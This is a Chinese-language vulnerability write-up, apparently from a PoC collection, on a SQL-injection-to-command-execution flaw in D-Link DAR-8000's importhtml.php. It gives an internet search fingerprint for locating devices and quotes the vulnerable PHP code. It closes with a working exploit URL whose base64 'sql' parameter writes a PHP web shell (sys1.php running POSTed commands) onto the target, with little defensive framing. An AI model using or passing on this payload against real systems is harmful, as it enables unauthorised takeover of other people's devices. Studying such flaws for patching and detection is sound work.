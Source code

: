 # D-Link DAR-8000 importhtml.php 远程命令执行漏洞

## 漏洞描述

D-Link DAR-8000 importhtml.php文件存在SQL注入导致 远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>D-Link DAR-8000</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="mask.style.visibility"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/image-20210718220233977.png)



出现漏洞的文件 `importhtml.php`



```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```



跟踪exportHtmlMail函数



```php
function exportHtmlMail($filename,$sql){

	Header( "Expires: 0" );

	Header( "Pragma: public" );

	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );

	Header( "Cache-Control: public");

	Header( "Content-Type: application/octet-stream" );

	header("Accept-Ranges: bytes");

	header("Content-Disposition: attachment; filename=$filename.html");

	echo "<html>\n";

	echo "<head><title>报表</title></head>\n";

	echo "<body>\n";

	$conn = connOther();

	$result = mysql_query($sql,$conn);

	while ($data= mysql_fetch_array($result)){

		$post_content = "";

		if($data['mail_file_path'] == "(null)"){

			$post_content = "<font color=red>内容审计未启用</font>";

		}

		else{



			$post_filename=$data['mail_file_path'];

			$ifother = "";

			$ifother = ifExistOther($post_filename);

			if($ifother!=""){

				$post_filename = $ifother;

			}

			$str = "/usr/bin/cap2con $post_filename pop";

			system($str,$returnvalue);

			$post_filename=str_replace(".cap",".eml",$post_filename);

			$post_content = file_get_contents($post_filename);

			$rec=new mime_decode;

			$post_content=$rec->decode_mime_string($post_content);

			//...

		}

	}

}
```



这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控



```php
$str = "/usr/bin/cap2con $post_filename pop";
```



验证POC



```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```



访问成功后会触发下载日志文件，再访问 sys1.php



![img](../../../.vuepress/public/img/image-20210718204705207-20220314115514184.png)

